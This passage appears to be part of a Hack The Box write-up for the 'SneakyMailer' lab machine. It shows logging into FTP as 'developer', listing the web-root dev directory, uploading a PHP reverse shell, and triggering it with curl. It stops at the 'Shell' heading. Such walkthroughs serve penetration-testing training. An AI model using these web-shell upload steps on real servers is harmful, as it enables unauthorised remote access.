

# 15 - FTP

# Login successful 
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:user): developer                       
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Sep 06 12:25 dev
226 Directory send OK.

```
Developer has read/write access to dev.
# Files
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
```

Unfortunately there is no sensitive information stored here but the structure and files look familiar. Those are the files from the http server but it may be a dev branch because the parent directory is named "dev"


# Reverse Shell upload
```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (106.8894 MB/s)
```

Our reverse shell payload is uploaded. Possible locations with the name "dev" could be one the following:

* dev.sneakycorp.htb/php-reverse-shell.php
* sneakycorp.htb/dev/php-reverse-shell.php
* sneakycorp.htb:8080/dev/php-reverse-shell.php
* dev.sneakycorp.htb:8080/php-reverse-shell.php

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ curl http://dev.sneakycorp.htb/php-reverse-shell.php
```

As it turns out the correct location is http://dev.sneakycorp.htb/php-reverse-shell.php .

# Shell
